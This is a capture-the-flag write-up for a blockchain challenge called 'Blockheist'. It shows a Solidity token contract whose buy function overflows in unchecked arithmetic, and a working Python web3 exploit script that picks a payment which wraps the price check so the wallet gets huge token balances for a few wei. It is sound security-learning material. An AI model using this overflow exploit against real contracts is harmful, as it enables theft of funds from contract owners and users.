





### Blockheist


The landing page of the webapp hints at a crypto website with the Connect Wallet button. 



The page's source code hints at it being EVM based with the use of ethersjs


Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `Buy Flag` reveals the user must own 1e75 Haxor token, which costs 4.7e+59 ETH



Searching for a the EVM wallet address format reveals a contract address (ca).



Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x2876ad7baf96864c992150ff16f909ab12440adb) reveals the contract source code.


```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.7.6;

contract Haxor {
    mapping (address => uint256) private userBalances;
    uint8 public TOKEN_PRICE = 2 wei;
    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );

        userBalances[msg.sender] += _tokenToBuy;
        TOKEN_PRICE++;
    }
    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
```
The Important things to note from the code are:
1. The `TOKEN_PRICE` variable is a `uint8` and the `userBalances` mapping has a uint256 dict value type.
2. The `buy` function uses unsafe maths to verify the amount being paid.  The unsafe multiplication will overflow back to 0 if the result of `_tokenToBuy` \* `TOKEN_PRICE` is greater than 2^256. The user wallet controls one of the variables of the multiplication. 
3. Every buy irreversibly increases the cost of each Haxor token by 1. The unsafe addition will overflow the `uint8` `TOKEN_PRICE` variable and reset it to 0 after 2^8 - 2(2 Wei is the starting price of haxor) 

A simple script to interact with the contract

```python
contract_abi = [] #Replace with contract ABI. Get from etherscan link
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #Sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") #Replace with wallet private_key
CONTRACT_ADDRESS = Web3.to_checksum_address("0x2876ad7baf96864c992150ff16f909ab12440adb") # Contract address
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1) 

wallet_current_balance = TOKEN_CONTRACT.functions.getUserBalance(user_wallet.address).call()
print(wallet_current_balance)
current_haxor_price = TOKEN_CONTRACT.functions.TOKEN_PRICE().call()
print(current_haxor_price)
uint_max = 2**256
wei_to_send = current_haxor_price - (uint_max % current_haxor_price)
amount_of_tokens_to_buy = (wei_to_send + uint_max) // current_haxor_price
if wallet_current_balance + amount_of_tokens_to_buy > 2**256:
   print(f"User balance will overflow back to 0")
   exit()

raw_data = TOKEN_CONTRACT.encodeABI("buy", args=[amount_of_tokens_to_buy])
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": wei_to_send,
            "gas": 400_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
print(tx)
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.to_hex(txn_hash)) # Check hash manually

```

With each run of the script, the user balance increases exponentially until the wallet can afford the flag

